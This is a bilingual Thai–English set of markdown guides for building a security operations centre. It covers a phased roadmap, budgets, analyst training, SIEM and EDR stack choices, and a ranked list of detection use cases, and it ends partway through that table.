| 3 | EDR | malware, process |
| 4 | Email gateway | phishing #1 |
| 5–6 | Cloud (AWS/Azure) | misconfig |
| 7–8 | DNS + Proxy | C2, shadow IT |

### Deploy 10 Sigma Rules แรก

เริ่มจาก `win_multiple_failed_logins`, `proc_office_spawn_powershell`, `cloud_unusual_login` + อ่าน [Tier 1 Runbook](../05_Incident_Response/Runbooks/Tier1_Runbook.th.md)

---


### 2.3 เขียน SOPs ชุดแรก

เริ่มจากเอกสาร 5 ฉบับนี้:

1. **Alert Triage SOP** — ขั้นตอนคัดกรอง alert
2. **Incident Response Playbook** — Playbook ตอบสนองเหตุการณ์หลัก
3. **Escalation Matrix** — เมื่อไหร่/อย่างไรที่จะ escalate
4. **Shift Handoff** — ขั้นตอนส่งมอบกะ
5. **Evidence Collection** — ขั้นตอนเก็บหลักฐาน

### 2.4 เช็คลิสต์เฟส 2

- [ ] เชื่อมต่อ log sources อย่างน้อย 5 แหล่ง
- [ ] Deploy Sigma rules อย่างน้อย 10 rules
- [ ] เขียน SOPs หลัก 5 ฉบับ
- [ ] Tune false positives รอบแรก
- [ ] สร้าง dashboard สำหรับ daily operations

## เฟส 3: ปฏิบัติการ (เดือน 7–12)

- Deploy playbooks ทั้ง 30 ชุด (ค่อยๆ ทำเป็น wave)
- ซ้อม [Tabletop Exercise](../05_Incident_Response/Tabletop_Exercises.th.md) ครั้งแรก
- เริ่มวัด metrics: MTTD < 4 ชม., MTTR < 8 ชม.

---


### 3.1 ขยาย Playbook Coverage

ครอบคลุม use cases ตาม MITRE ATT&CK:

| Tactic | Playbook | ระดับ |
|:---|:---|:---:|
| Initial Access | Phishing Response | P1 |
| Execution | Malware Execution | P1 |
| Persistence | Unauthorized Scheduled Task | P2 |
| Privilege Escalation | Admin Account Misuse | P1 |
| Lateral Movement | Pass-the-Hash | P2 |
| Exfiltration | Data Exfiltration | P1 |
| Impact | Ransomware | P1 |

### 3.2 จัด Tabletop Exercise ครั้งแรก

1. เลือก scenario (เช่น ransomware)
2. เชิญ stakeholders (IT, Legal, Management)
3. ทำ walkthrough ตาม playbook
4. บันทึก lessons learned
5. อัปเดต SOPs จากผลลัพธ์

### 3.3 กำหนด Metrics

| ตัวชี้วัด | เป้าหมาย |
|:---|:---|
| **MTTD** (Mean Time to Detect) | ≤ 60 นาที |
| **MTTR** (Mean Time to Respond) | ≤ 240 นาที |
| **False Positive Rate** | < 10% |
| **Alert-to-Incident Ratio** | < 20:1 |
| **Playbook Coverage** | ≥ 80% ของ use cases |

### 3.4 เช็คลิสต์เฟส 3

- [ ] Playbooks ครอบคลุม top 10 use cases
- [ ] จัด tabletop exercise อย่างน้อย 1 ครั้ง
- [ ] สร้าง KPI dashboard
- [ ] มี monthly SOC report
- [ ] เริ่ม threat hunting program

## เฟส 4: พัฒนา (ปีที่ 2+)

- Threat Hunting, SOAR Automation, Purple Teaming
- สอบ SOC Maturity — ใช้ [เครื่องมือวัดคะแนน](../tools/soc_maturity_scorer.html)
- Compliance audit — ใช้ [Compliance Mapping](../07_Compliance_Privacy/Compliance_Mapping.th.md)

---


### 4.1 ความสามารถขั้นสูง

| ความสามารถ | เครื่องมือ/วิธี | เป้าหมาย |
|:---|:---|:---|
| **Threat Hunting** | MITRE ATT&CK, Jupyter | เชิงรุก |
| **SOAR Automation** | Shuffle, XSOAR | ลดเวลาตอบสนอง |
| **Purple Team** | Atomic Red Team | ทดสอบ detection |
| **CTI Program** | MISP, OpenCTI | ข่าวกรองเชิงกลยุทธ์ |
| **Forensics Lab** | SIFT, Volatility | วิเคราะห์เชิงลึก |

### 4.2 ระดับวุฒิภาวะ SOC

| ระดับ | ชื่อ | ลักษณะ |
|:---|:---|:---|
| 1 | **Initial** | Reactive, ไม่มี process ชัดเจน |
| 2 | **Managed** | มี SOPs, มี shift rotation |
| 3 | **Defined** | Playbooks ครบ, metrics tracking |
| 4 | **Quantitative** | Data-driven, automation |
| 5 | **Optimizing** | Continuous improvement, threat hunting |

## งบประมาณ

| แบบ | งบปีแรก | หมายเหตุ |
|:---|:---:|:---|
| 🟢 Budget (Open-Source) | ฿1.6–3.3M | Wazuh + 2 คน |
| 🟡 Mid-Range | ฿5.8–12.5M | Elastic/Sentinel + 4 คน + MSSP |
| 🔴 Enterprise | ฿18–47M | Splunk + 10+ คน + 24/7 |

---


### Option A: SOC ประหยัด (Open-Source Stack)

| รายการ | ค่าใช้จ่าย/ปี |
|:---|:---|
| Wazuh (SIEM+EDR) | ฟรี |
| TheHive (Ticketing) | ฟรี |
| MISP (TI) | ฟรี |
| Suricata (IDS) | ฟรี |
| เซิร์ฟเวอร์ (3 nodes) | ~300,000 ฿ |
| บุคลากร (3–4 FTE) | ~1,800,000 ฿ |
| **รวม** | **~2,100,000 ฿/ปี** |

### Option B: SOC ระดับกลาง (Commercial + Open-Source)

| รายการ | ค่าใช้จ่าย/ปี |
|:---|:---|
| Splunk/Elastic (SIEM) | ~1,500,000 ฿ |
| CrowdStrike (EDR) | ~800,000 ฿ |
| TheHive (Ticketing) | ฟรี |
| บุคลากร (6–8 FTE) | ~3,600,000 ฿ |
| **รวม** | **~5,900,000 ฿/ปี** |

### Option C: SOC ระดับองค์กร

| รายการ | ค่าใช้จ่าย/ปี |
|:---|:---|
| Sentinel/Splunk Enterprise | ~3,000,000 ฿ |
| CrowdStrike+Cortex XDR | ~2,000,000 ฿ |
| XSOAR (SOAR) | ~1,500,000 ฿ |
| บุคลากร (12–15 FTE) | ~9,000,000 ฿ |
| **รวม** | **~15,500,000 ฿/ปี** |

## เส้นทางฝึก Analyst

### เดือน 1–3 (มือใหม่)
| สัปดาห์ | เรียนอะไร | แหล่ง |
|:---:|:---|:---|
| 1–2 | พื้นฐาน Network | CompTIA Network+ / YouTube |
| 3–4 | Linux & Windows | TryHackMe "Pre-Security" |
| 5–6 | Security พื้นฐาน | CompTIA Security+ |
| 7–10 | SIEM + Log Analysis | TryHackMe "SOC Level 1" |
| 11–12 | IR พื้นฐาน | Repository นี้ |

### Cert แนะนำ
```
เริ่มต้น → Security+ / SC-900 (~฿10K)
กลาง   → CySA+ / BTL1 (~฿15–30K)
สูง     → SANS GCIH / GCFA (~฿100–200K)
```

---


### ทรัพยากรฝึกอบรมฟรี

| แหล่ง | เนื้อหา |
|:---|:---|
| [LetsDefend](https://letsdefend.io) | SOC Analyst simulator |
| [CyberDefenders](https://cyberdefenders.org) | Blue team challenges |
| [MITRE ATT&CK](https://attack.mitre.org) | Threat framework |
| [Malware Traffic Analysis](https://malware-traffic-analysis.net) | PCAP analysis |

## ลำดับการอ่านเอกสารใน Repository นี้

| ลำดับ | เอกสาร | วัตถุประสงค์ |
|:---|:---|:---|
| 1 | SOC Building Roadmap (เอกสารนี้) | ภาพรวมและแผนงาน |
| 2 | Technology Stack | เลือกเครื่องมือ |
| 3 | Infrastructure Setup | ติดตั้ง |
| 4 | IR Framework | กรอบการตอบสนอง |
| 5 | Playbooks (35 ฉบับ) | ขั้นตอนปฏิบัติ |
| 6 | SOC Metrics & KPIs | วัดผล |

## Quick Start 30 วัน

```
สัปดาห์ 1: อ่านคู่มือนี้ + เขียน SOC mission + ขออนุมัติงบ
สัปดาห์ 2: ติดตั้ง SIEM + deploy agent 5 เครื่อง + เชื่อม AD
สัปดาห์ 3: Import 10 Sigma rules + ทดสอบ alert แรก
สัปดาห์ 4: พิมพ์ Severity Matrix + มอบหมายคนดู alert + handle alert แรก
```

---

## ข้อผิดพลาดที่พบบ่อย

| ❌ อย่าทำ | ✅ ทำแทน |
|:---|:---|
| ซื้อ SIEM แพงก่อนจ้างคน | จ้างคนก่อน แล้วเลือกเครื่องมือด้วยกัน |
| พยายาม monitor ทุกอย่างวันแรก | เริ่มจาก 5 log sources |
| ไม่มี playbook | ใช้ playbook จาก repo นี้ตั้งแต่วันแรก |
| Alert ดังทั้งวัน (alert fatigue) | เริ่ม 10 rules, tune, แล้วค่อยเพิ่ม |
| 24/7 ด้วย 2 คน (burnout) | ใช้ MSSP ดูนอกเวลา |

---

## Quick Wins vs Long-term Investments

### Priority Matrix

| Initiative | Effort | Impact | Timeline |
|:---|:---|:---|:---|
| Log collection baseline | ต่ำ | สูง | สัปดาห์ 1-2 |
| Alert triage SOP | ต่ำ | สูง | สัปดาห์ 2-3 |
| SIEM use case tuning | กลาง | สูง | เดือน 1-2 |
| Threat hunting program | สูง | สูง | เดือน 3-6 |
| SOAR automation | สูง | กลาง | เดือน 6-12 |
| ML-based detection | สูง | กลาง | ปี 2 |

### Common Pitfalls to Avoid

> ⚠️ **ข้อควรระวัง**
> 1. อย่าซื้อเครื่องมือก่อนกำหนด process
> 2. อย่าเก็บ log ทุกอย่างโดยไม่คัดกรอง
> 3. อย่าละเลยการฝึกอบรมทีม
> 4. อย่าคาดหวัง 24/7 จากทีมเล็ก
> 5. อย่าวัดแค่จำนวน alert ที่ปิด

### Budget Planning Template

```
ปี 1 Budget Breakdown (ตัวอย่าง):
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Personnel (60%)    ████████████████████  60%
Technology (25%)   ████████              25%
Training (10%)     ███                   10%
Operations (5%)    ██                     5%
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Total: ~15-25M THB/year (mid-size org)
```

### Milestone Tracking Dashboard

| Phase | Milestone | Status | Target Date |
|:---|:---|:---|:---|
| 1 | Log collection active | ☐ | Week 4 |
| 2 | First playbook deployed | ☐ | Week 8 |
| 3 | 24/7 coverage achieved | ☐ | Month 6 |
| 4 | Threat hunting initiated | ☐ | Month 9 |
| 5 | Full automation deployed | ☐ | Month 18 |

### Success Criteria per Phase

| Phase | KPI | Target |
|:---|:---|:---|
| Foundation | Log sources onboarded | ≥ 10 |
| Operations | MTTR | < 4 hrs |
| Advanced | Detection coverage | > 60% ATT&CK |
| Optimized | Automation rate | > 40% alerts |

### Vendor Selection Criteria

| Factor | Weight | Evaluation |
|:---|:---|:---|
| Feature fit | 30% | POC results |
| Cost (TCO) | 25% | 3-year model |
| Support quality | 20% | SLA review |
| Integration | 25% | API testing |

## เอกสารที่เกี่ยวข้อง

- [กรอบ IR](../05_Incident_Response/Framework.th.md)
- [ตารางความรุนแรง](../05_Incident_Response/Severity_Matrix.th.md)
- [คู่มือ Tier 1](../05_Incident_Response/Runbooks/Tier1_Runbook.th.md)
- [โครงสร้างทีม SOC](../06_Operations_Management/SOC_Team_Structure.th.md)
- [เครื่องมือวัด Maturity](../tools/soc_maturity_scorer.html)


---

## File: 01_SOC_Fundamentals/Technology_Stack.en.md

# SOC Technology Stack Selection Guide

> **Document ID:** TECH-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Prerequisite:** Read [SOC Building Roadmap](SOC_Building_Roadmap.en.md) first

---

## Decision Framework

Choose technology based on **3 factors**:

```
                    ┌─────────────┐
                    │   Budget    │
                    └──────┬──────┘
                           │
              ┌────────────┼────────────┐
              │            │            │
        ┌─────┴─────┐ ┌───┴───┐ ┌─────┴─────┐
        │  ฿ Free   │ │ ฿฿ Mid│ │ ฿฿฿ High  │
        │ Open-Src  │ │ Mixed │ │ Enterprise│
        └───────────┘ └───────┘ └───────────┘

    ×   Existing Infrastructure (Azure? AWS? On-prem?)
    ×   Team Skill Level (Beginner? Expert?)
    =   Your Stack
```

---

## Stack A: Full Open-Source (฿0 Licensing)

**Best for:** Startups, small teams, learning, budget-conscious orgs

| Layer | Tool | Notes |
|:---|:---|:---|
| **SIEM** | Wazuh 4.x | All-in-one: SIEM + XDR + Compliance |
| **Endpoint** | Wazuh Agent | Built-in EDR, FIM, vulnerability scan |
| **Network IDS** | Suricata | High-performance, rule-based |
| **Network Metadata** | Zeek | Rich protocol analysis |
| **Threat Intel** | MISP + OpenCTI | TI platform + feeds |
| **Ticketing/IR** | TheHive + Cortex | IR case management + enrichment |
| **SOAR** | Shuffle | Drag-and-drop automation |
| **Vuln Scanner** | OpenVAS/Greenbone | Network vulnerability assessment |
| **Log Shipping** | Filebeat / rsyslog | Lightweight log forwarding |

### Architecture
```
Endpoints/Servers          Network              Cloud
  [Wazuh Agent] ──┐    [Suricata] ──┐     [CloudTrail] ──┐
  [Wazuh Agent] ──┤    [Zeek]     ──┤     [Flow Logs]  ──┤
  [Wazuh Agent] ──┤                 │                    │
                  ▼                 ▼                    ▼
            ┌─────────────────────────────────────────────┐
            │           Wazuh Manager + Indexer           │
            │         (Elasticsearch / OpenSearch)        │
            └──────────────────┬──────────────────────────┘
                               │
                    ┌──────────┴──────────┐
                    │ Wazuh Dashboard     │ ← Analyst works here
                    │ TheHive (Tickets)   │
                    │ MISP (Threat Intel) │
                    │ Shuffle (SOAR)      │
                    └─────────────────────┘
```

### Server Requirements
| Component | CPU | RAM | Disk | VMs |
|:---|:---:|:---:|:---:|:---:|
| Wazuh Manager | 4 cores | 8 GB | 50 GB | 1 |
| Wazuh Indexer | 4 cores | 16 GB | 500 GB+ | 1–3 |
| Wazuh Dashboard | 2 cores | 4 GB | 20 GB | 1 |
| TheHive + Cortex | 4 cores | 8 GB | 100 GB | 1 |
| MISP | 2 cores | 4 GB | 50 GB | 1 |
| **Total (minimum)** | **16 cores** | **40 GB** | **720 GB** | **4–5** |

### Pros and Cons
| ✅ Pros | ❌ Cons |
|:---|:---|
| Zero license cost | Requires Linux admin skills |
| Full control over data | Manual updates and patching |
| Active community support | No vendor SLA / support |
| Customize anything | Integration requires effort |

---

## Stack B: Microsoft-Centric (Already have M365)

**Best for:** Organizations already using Microsoft 365 E3/E5 or Azure

| Layer | Tool | License |
|:---|:---|:---|
| **SIEM** | Microsoft Sentinel | Pay-per-GB ingestion |
| **Endpoint** | Microsoft Defender for Endpoint | M365 E5 or standalone |
| **Identity** | Entra ID Protection | M365 E5 |
| **Email** | Defender for Office 365 | M365 E5 |
| **Cloud** | Defender for Cloud | Per-resource pricing |
| **SOAR** | Sentinel Playbooks (Logic Apps) | Included with Sentinel |
| **Threat Intel** | Defender Threat Intelligence | Included |
| **Ticketing** | ServiceNow / Jira | Separate license |

### Architecture
```
   M365 Users          Azure VMs         On-prem Servers
   [Defender] ──┐    [Defender] ──┐    [AMA Agent] ──┐
   [Entra ID] ──┤    [NSG Logs] ──┤    [Syslog]    ──┤
                │                 │                   │
                ▼                 ▼                   ▼
           ┌──────────────────────────────────────────┐
           │         Microsoft Sentinel               │
           │      (Log Analytics Workspace)           │
           └───────────────────┬──────────────────────┘
                               │
                    ┌──────────┴──────────┐
                    │ Sentinel Workbooks  │
                    │ Analytics Rules     │
                    │ Playbooks (SOAR)    │
                    │ Hunting Queries     │
                    └─────────────────────┘
```

### Cost Estimate
| Component | Monthly Cost (500 users) |
|:---|:---|
| M365 E5 license (500 users) | ~฿1.5M/mo |
| Sentinel ingestion (50 GB/day) | ~฿150K/mo |
| Defender for Cloud | ~฿30K/mo |
| **Total** | **~฿1.7M/mo** |

> **Tip:** If you already have M365 E5, you already have Defender. Just enable Sentinel and connect the data sources — you could have a working SIEM in 1 day.

### Pros and Cons
| ✅ Pros | ❌ Cons |
|:---|:---|
| Native integration with M365 | Vendor lock-in |
| Fast to deploy | Costs scale with data volume |
| AI-powered detection (Copilot) | Complex pricing model |
| Strong identity protection | Limited multi-cloud support |

---

## Stack C: AWS-Centric

**Best for:** Organizations running primarily on AWS

| Layer | Tool | Notes |
|:---|:---|:---|
| **SIEM** | Amazon Security Lake + OpenSearch | Native AWS integration |
| **Endpoint** | CrowdStrike / SentinelOne | Third-party (AWS doesn't have EDR) |
| **Cloud Security** | GuardDuty | Threat detection for AWS |
| **Config** | AWS Config + Security Hub | Compliance and config monitoring |
| **Network** | VPC Flow Logs + Traffic Mirroring | Network visibility |
| **WAF** | AWS WAF | Web application firewall |
| **SOAR** | AWS Step Functions / Shuffle | Automation |

---

## Stack D: Elastic-Based (Flexible)

**Best for:** Multi-cloud, hybrid, or vendor-neutral preference

| Layer | Tool | Notes |
|:---|:---|:---|
| **SIEM** | Elastic Security (Free tier) | SIEM + Detection + Case management |
| **Endpoint** | Elastic Agent (Defend) | Built-in EDR |
| **Ingestion** | Elastic Agent / Beats | Hundreds of integrations |
| **SOAR** | n8n / Shuffle / Tines | Automation |
| **Threat Intel** | MISP + Elastic TI module | Feed integration |

### Architecture
```
  Endpoints         Cloud APIs        Network
  [Elastic Agent]   [AWS/Azure/GCP]   [Suricata/Zeek]
       │                 │                 │
       └────────────┬────┘─────────────────┘
                    ▼
         ┌──────────────────────┐
         │   Elasticsearch      │
         │   Kibana + Security  │
         │   Fleet Server       │
         └──────────┬───────────┘
                    │
             ┌──────┴──────┐
             │  Detection  │
             │  Rules      │
             │  Cases      │
             │  Timeline   │
             └─────────────┘
```

---

## Comparison Matrix

| Feature | Stack A (Open) | Stack B (MS) | Stack C (AWS) | Stack D (Elastic) |
|:---|:---:|:---:|:---:|:---:|
| License cost | ฿0 | ฿฿฿ | ฿฿ | ฿ (Free tier) |
| Setup difficulty | 🔴 Hard | 🟢 Easy | 🟡 Medium | 🟡 Medium |
| Time to value | 2–4 weeks | 1–3 days | 1–2 weeks | 1–2 weeks |
| Endpoint coverage | ✅ | ✅ | ⚠️ (need 3rd party) | ✅ |
| Cloud coverage | ⚠️ | ✅ Azure | ✅ AWS | ✅ Multi-cloud |
| SOAR built-in | ⚠️ (Shuffle) | ✅ | ⚠️ | ⚠️ |
| Community size | Large | Very large | Large | Very large |
| Vendor lock-in | None | High | High | Low |
| Sigma rule support | ✅ | ✅ (via KQL) | ⚠️ | ✅ |
| Best for | Learning, budget | M365 shops | AWS-heavy | Flexible orgs |

---

## Decision Tree

```
START
  │
  ├─ Already have Microsoft 365 E5?
  │   ├─ YES → Stack B (Microsoft)
  │   └─ NO ──┐
  │            │
  │   ├─ Primarily on AWS?
  │   │   ├─ YES → Stack C (AWS)
  │   │   └─ NO ──┐
  │   │            │
  │   │   ├─ Budget > ฿5M/year?
  │   │   │   ├─ YES → Stack D (Elastic)
  │   │   │   └─ NO → Stack A (Open-Source)
```

---

## Essential Add-Ons (Any Stack)

Regardless of which stack you choose, add these:

| Category | Recommendation | Why |
|:---|:---|:---|
| **Password Manager** | Bitwarden (team) | SOC handles many credentials |
| **Documentation** | MkDocs / Confluence | SOPs and runbooks (this repo!) |
| **Communication** | Slack / Teams + dedicated channels | Incident war rooms |
| **VPN** | WireGuard / existing enterprise VPN | Remote SOC access |
| **MFA** | Duo / Microsoft Authenticator | Protect SOC accounts |
| **Backup** | Veeam / Restic / AWS Backup | Evidence preservation |

---

## Related Documents

- [SOC Building Roadmap](SOC_Building_Roadmap.en.md)
- [Infrastructure Setup Guide](Infrastructure_Setup.en.md)
- [Log Source Onboarding](../06_Operations_Management/Log_Source_Onboarding.en.md)


---

## File: 01_SOC_Fundamentals/Technology_Stack.th.md

# คู่มือเลือก Technology Stack สำหรับ SOC

> **รหัสเอกสาร:** TECH-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **อ่านก่อน:** [แผนงานสร้าง SOC](SOC_Building_Roadmap.th.md)

---

## เลือกตาม 3 ปัจจัย: งบ × Infrastructure × ทักษะทีม

---

## Stack A: Open-Source ทั้งหมด (฿0 License)

**เหมาะกับ:** startup, ทีมเล็ก, งบจำกัด

| ชั้น | เครื่องมือ |
|:---|:---|
| SIEM | Wazuh 4.x |
| Endpoint | Wazuh Agent |
| Network IDS | Suricata |
| Threat Intel | MISP + OpenCTI |
| Ticketing | TheHive + Cortex |
| SOAR | Shuffle |
| Vuln Scan | OpenVAS |

**เซิร์ฟเวอร์ขั้นต่ำ:** 4–5 VMs, 16 cores, 40GB RAM, 720GB disk

| ✅ ข้อดี | ❌ ข้อเสีย |
|:---|:---|
| ไม่มีค่า license | ต้องมีทักษะ Linux |
| ควบคุมข้อมูลเองทั้งหมด | ต้องดูแล update เอง |
| ปรับแต่งได้ทุกอย่าง | ไม่มี vendor support |

---

## Stack B: Microsoft (มี M365 อยู่แล้ว)

| ชั้น | เครื่องมือ |
|:---|:---|
| SIEM | Microsoft Sentinel |
| Endpoint | Defender for Endpoint |
| Identity | Entra ID Protection |
| Email | Defender for Office 365 |
| SOAR | Sentinel Playbooks |

**ค่าใช้จ่าย ~500 users:** ~฿1.7M/เดือน

> **Tip:** ถ้ามี M365 E5 อยู่แล้ว เปิด Sentinel ได้เลย — มี SIEM ใน 1 วัน!

---

## Stack C: AWS-Centric

| ชั้น | เครื่องมือ |
|:---|:---|
| SIEM | Security Lake + OpenSearch |
| Cloud Security | GuardDuty |
| Config | AWS Config + Security Hub |
| EDR | CrowdStrike / SentinelOne (ซื้อเพิ่ม) |

---

## Stack D: Elastic (ยืดหยุ่น)

| ชั้น | เครื่องมือ |
|:---|:---|
| SIEM | Elastic Security (Free tier) |
| Endpoint | Elastic Agent (Defend) |
| SOAR | n8n / Shuffle |
| Threat Intel | MISP + Elastic TI module |

---

## ตารางเปรียบเทียบ

| คุณสมบัติ | Open-Source | Microsoft | AWS | Elastic |
|:---|:---:|:---:|:---:|:---:|
| ค่า license | ฿0 | ฿฿฿ | ฿฿ | ฿ |
| ตั้งค่ายากไหม | 🔴 ยาก | 🟢 ง่าย | 🟡 กลาง | 🟡 กลาง |
| ใช้ได้เร็ว | 2–4 สัปดาห์ | 1–3 วัน | 1–2 สัปดาห์ | 1–2 สัปดาห์ |
| Multi-cloud | ⚠️ | ⚠️ | ⚠️ | ✅ |
| Vendor lock-in | ไม่มี | สูง | สูง | ต่ำ |

---

## ผังตัดสินใจ

```
เริ่ม
 ├─ มี M365 E5 อยู่? → YES → Stack B (Microsoft)
 └─ NO
    ├─ ใช้ AWS เป็นหลัก? → YES → Stack C (AWS)
    └─ NO
       ├─ งบ > ฿5M/ปี? → YES → Stack D (Elastic)
       └─ NO → Stack A (Open-Source)
```

---

## Stack Comparison: Open-Source vs Commercial

| หมวด | Open-Source | Commercial | หมายเหตุ |
|:---|:---|:---|:---|
| **SIEM** | Wazuh, ELK | Splunk, Sentinel | Wazuh = ดีสำหรับเริ่มต้น |
| **EDR** | Wazuh, Velociraptor | CrowdStrike, Defender | CrowdStrike = best-in-class |
| **SOAR** | Shuffle, n8n | XSOAR, Phantom | Shuffle = ดีสำหรับ SMB |
| **TI** | MISP, OpenCTI | Recorded Future, ThreatConnect | MISP = มาตรฐาน OSS |
| **Ticketing** | TheHive, RTIR | ServiceNow, Jira | TheHive = สร้างมาเพื่อ SOC |
| **Network** | Suricata, Zeek | Palo Alto, Darktrace | Suricata = IDS ที่ดีที่สุด (ฟรี) |
| **Forensics** | Autopsy, Volatility | EnCase, FTK | เพียงพอสำหรับส่วนใหญ่ |

## Integration Architecture

```mermaid
graph TD
    subgraph "Log Sources"
        EP["Endpoints"]
        FW["Firewall"]
        CLOUD["Cloud"]
        EMAIL["Email"]
    end
    subgraph "Detection Layer"
        SIEM["SIEM<br/>(Wazuh/Splunk)"]
        EDR["EDR<br/>(CrowdStrike)"]
        NDR["NDR<br/>(Suricata/Zeek)"]
    end
    subgraph "Response Layer"
        SOAR["SOAR<br/>(Shuffle/XSOAR)"]
        CASE["Case Mgmt<br/>(TheHive)"]
    end
    subgraph "Intelligence"
        TI["TI Platform<br/>(MISP)"]
    end
    EP --> EDR
    EP --> SIEM
    FW --> SIEM
    CLOUD --> SIEM
    EMAIL --> SIEM
    SIEM --> SOAR
    EDR --> SOAR
    NDR --> SIEM
    SOAR --> CASE
    TI --> SIEM
    TI --> SOAR
```

## เกณฑ์การเลือกเครื่องมือ

| เกณฑ์ | น้ำหนัก | คำถามสำคัญ |
|:---|:---:|:---|
| **ต้นทุน** | 25% | งบประมาณต่อปี? TCO 3 ปี? |
| **ความสามารถ** | 25% | ตอบ use cases ได้ครบ? |
| **Integration** | 20% | มี API? รองรับ tools อื่น? |
| **ง่ายต่อการใช้งาน** | 15% | ทีมใช้ได้เร็วแค่ไหน? |
| **Support / Community** | 15% | มี vendor support? ชุมชนใหญ่? |

## Recommended Stack ตามขนาดองค์กร

| ขนาด | SIEM | EDR | SOAR | TI | ค่าใช้จ่ายโดยประมาณ |
|:---|:---|:---|:---|:---|:---|
| **Startup** | Wazuh | Wazuh | n/a | MISP | ฟรี (+ infra) |
| **SMB** | Wazuh/Elastic | LimaCharlie | Shuffle | MISP | ~500K ฿/ปี |
| **Enterprise** | Splunk/Sentinel | CrowdStrike | XSOAR | ThreatConnect | ~5M+ ฿/ปี |

## Deployment Models

| รูปแบบ | ข้อดี | ข้อเสีย | เหมาะกับ |
|:---|:---|:---|:---|
| **On-Premises** | ควบคุมเต็มที่, ข้อมูลอยู่ภายใน | ต้นทุน infra สูง | หน่วยงานรัฐ, การเงิน |
| **Cloud-Native** | Scale ง่าย, ไม่ต้องดูแล infra | ค่าบริการต่อเนื่อง | Startup, SMB |
| **Hybrid** | ยืดหยุ่น, แยก sensitive data ได้ | ซับซ้อนกว่า | Enterprise |
| **MSSP** | ไม่ต้องจ้างทีมเต็ม | ควบคุมน้อยลง | SMB ที่ไม่มีทีม |

## Tool Evaluation Scorecard

| เครื่องมือ | Capability (1-5) | Ease of Use (1-5) | Integration (1-5) | Cost (1-5) | Total |
|:---|:---:|:---:|:---:|:---:|:---:|
| [เครื่องมือ A] | [X] | [X] | [X] | [X] | [XX] |
| [เครื่องมือ B] | [X] | [X] | [X] | [X] | [XX] |
| [เครื่องมือ C] | [X] | [X] | [X] | [X] | [XX] |

## Migration Considerations

| จาก | ไปยัง | ความท้าทาย | ระยะเวลา |
|:---|:---|:---|:---:|
| On-prem SIEM → Cloud SIEM | Data migration, rule conversion | 2–4 เดือน |
| Open-source → Commercial | License, training, data format | 1–3 เดือน |
| Commercial → Open-source | Feature parity, support gap | 3–6 เดือน |
| Single-vendor → Best-of-breed | Integration complexity | 2–4 เดือน |

## Technology Evaluation Matrix

### Tier-based Selection Guide

| Tier | Organization Size | Budget | SIEM Options |
|:---|:---|:---|:---|
| Starter | <50 users | <2M THB | Wazuh, ELK Stack |
| Growth | 50-500 users | 2-10M THB | Splunk, QRadar |
| Enterprise | 500+ users | 10M+ THB | Sentinel, Chronicle |

### Integration Compatibility Matrix

| Component | SIEM | EDR | SOAR | TI |
|:---|:---|:---|:---|:---|
| Splunk | - | ✅ CrowdStrike | ✅ Phantom | ✅ MISP |
| QRadar | - | ✅ Carbon Black | ✅ Resilient | ✅ ThreatConnect |
| Sentinel | - | ✅ Defender | ✅ Logic Apps | ✅ Sentinel TI |
| Wazuh | - | ✅ OSSEC | ⚠️ Manual | ✅ MISP |

### TCO Calculation Template

```
Total Cost of Ownership (3 years):
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
License/Subscription     ████████████  40%
Infrastructure           ████████      25%
Personnel (FTE)          ██████        20%
Training & Certs         ███            10%
Integration & Customization ██          5%
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

### Vendor Support Matrix

| Vendor | Support Level | SLA | Cost |
|:---|:---|:---|:---|
| Tier 1 | 24/7 Phone + Chat | 1 hr response | Premium |
| Tier 2 | Business hours | 4 hr response | Standard |
| Tier 3 | Email only | 24 hr response | Basic |
| Community | Forum/GitHub | Best effort | Free |

### POC Evaluation Criteria

| Criteria | Weight | Score (1-5) |
|:---|:---|:---|
| Detection accuracy | 25% | - |
| Integration ease | 20% | - |
| Performance impact | 15% | - |
| Vendor support | 15% | - |
| Total cost | 25% | - |

## เอกสารที่เกี่ยวข้อง

- [แผนงานสร้าง SOC](SOC_Building_Roadmap.th.md)
- [คู่มือติดตั้ง Infrastructure](Infrastructure_Setup.th.md)
- [คู่มือ Onboard Log](../06_Operations_Management/Log_Source_Onboarding.th.md)


---

## File: 01_SOC_Fundamentals/Use_Case_Prioritization.en.md

# Detection Use Case Prioritization — What to Detect First

> **Document ID:** UC-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Prerequisite:** SIEM installed, at least 3 log sources onboarded

---

## The Problem

There are thousands of possible detection rules. You can't deploy them all at once. This guide tells you **what to detect first** based on real-world threat data and your available log sources.

---

## The Framework: MITRE ATT&CK Top 10

Based on industry data (Mandiant M-Trends, Verizon DBIR, CrowdStrike threat reports), these are the most commonly used attack techniques:

| Rank | Technique | ID | What It Is | How Common |
|:---:|:---|:---|:---|:---:|
| 1 | Phishing | T1566 | Malicious email (link/attachment) | 🔴🔴🔴 |
| 2 | Valid Accounts | T1078 | Stolen/compromised credentials | 🔴🔴🔴 |
| 3 | Command & Scripting | T1059 | PowerShell, cmd, bash abuse | 🔴🔴 |
| 4 | Brute Force | T1110 | Password guessing/spraying | 🔴🔴 |
| 5 | Data Encrypted (Ransomware) | T1486 | File encryption for ransom | 🔴🔴 |
| 6 | Remote Services | T1021 | RDP, SSH, SMB lateral movement | 🔴🔴 |
| 7 | Ingress Tool Transfer | T1105 | Download malware/tools | 🔴 |
| 8 | Web Application Exploit | T1190 | SQLi, RCE against web apps | 🔴 |
| 9 | Process Injection | T1055 | Living-off-the-land techniques | 🔴 |
| 10 | Account Manipulation | T1098 | Persistence via account changes | 🔴 |

---

## Phase 1: Foundational Use Cases (Month 1–3)

**Goal:** Catch the most common and most impactful attacks.

### Deploy These 10 Rules First

| # | Use Case | Log Source | Sigma Rule | Playbook | Priority |
|:---:|:---|:---|:---|:---|:---:|
| 1 | Multiple failed logins (brute force) | AD / Azure AD | `win_multiple_failed_logins` | PB-04 | 🔴 P1 |
| 2 | Login from impossible location | Azure AD | `cloud_impossible_travel` | PB-06 | 🔴 P1 |
| 3 | Office app spawns PowerShell | EDR / Sysmon | `proc_office_spawn_powershell` | PB-01 | 🔴 P1 |
| 4 | Malware executed on endpoint | EDR | `proc_temp_folder_execution` | PB-03 | 🔴 P1 |
